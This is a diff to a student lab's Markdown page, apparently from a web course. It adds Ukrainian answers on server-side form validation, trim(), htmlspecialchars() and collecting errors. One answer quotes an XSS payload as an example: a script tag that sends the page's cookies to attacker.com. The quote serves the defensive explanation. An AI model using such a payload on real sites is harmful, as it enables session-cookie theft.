

Before and after one commit to opryavlad1703-star/lab-6-7, a Markdown page: lab7.md, the part around the change. Rendered like a GitHub page; pictures changed too: screenshot1.png (added); blank space fills up the shorter version.

````diff
--- a/lab7.md
+++ b/lab7.md
@@ -14,4 +14,27 @@ if ($_SERVER['REQUEST_METHOD'] === 'POST') {
         $errors[] = "Поле Опис є обов'язковим для заповнення!";
     }
 }
+```
 ![Скриншот](screenshot1.png)
+
+## Відповіді на контрольні запитання
+1) Принципова різниця між валідацією на фронтенді та бекенді:
+
+Фронтенд-валідація потрібна для миттєвого зворотного зв'язку та зручності користувача (UX).
+Серверна (бекенд) валідація відповідає за безпеку та цілісність даних, оскільки клієнтський код можна легко змінити або обійти.
+
+2) Чому серверна валідація критично необхідна і хто може обійти HTML required:
+Будь-який користувач може обійти required, видаливши атрибут через DevTools (F12) у браузері, вимкнувши JavaScript або відправивши прямий POST-запит через інструменти на кшталт Postman чи curl. Сервер повинен перевіряти дані незалежно від клієнта.
+3) Що робить trim() та яку проблему вирішує:
+
+Видаляє пробіли (та інші службові символи) з початку та кінця рядка. Запобігає обходу обов'язкових полів введенням лише пробілів, а також вирішує проблему випадкових пробілів під час введення логіна чи пароля.
+4) Від чого захищає htmlspecialchars():
+
+Захищає від XSS-атак (Cross-Site Scripting), перетворюючи спеціальні символи (наприклад, <, >, ", ') на безпечні HTML-сутності (&lt;, &gt;).
+
+Приклад "поганого" тексту: <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
+
+5) Що таке Error Bag i чому краще збирати всі помилки:
+Error Bag — це масив для накопичення всіх помилок, виявлених під час перевірки форми.
+
+Збирання всіх помилок дозволяє вивести їх користувачеві одночасно за один крок. Використання die() або exit() при першій же помилці перериває виконання скрипта і змушує користувача виправляти помилки по одній, що значно погіршує UX.
````
Also changed, not shown: 2 other files.
